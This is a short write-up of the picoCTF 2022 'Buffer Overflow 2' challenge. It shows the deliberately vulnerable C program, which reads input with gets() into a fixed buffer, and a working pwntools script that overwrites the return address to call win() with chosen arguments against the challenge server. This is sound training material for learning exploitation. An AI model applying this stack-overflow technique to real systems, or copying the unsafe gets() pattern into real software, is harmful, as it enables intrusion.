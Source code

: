 # Buffer Overflow 2

Simple buffer overflow, but with argument control.

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

After running a quick `checksec` on the program, we get this:

![image](https://github.com/nyiyui/ctf/blob/main/picoctf-2022/pwn/images/bo2checksec.png)

This means that it's an x32 file, making it very easy to exploit, since x32 uses `cdecl`. After a bit of code writing, this is our final program:

```python
from pwn import *

con = remote("saturn.picoctf.net", 62465)
winb = 0x08049296

payload = "";
payload += "a" * 112
payload += p32(winb)
payload += "CCCC"
payload += p32(0xCAFEF00D)
payload += p32(0xF00DF00D)
con.sendline(payload)
con.interactive()
```
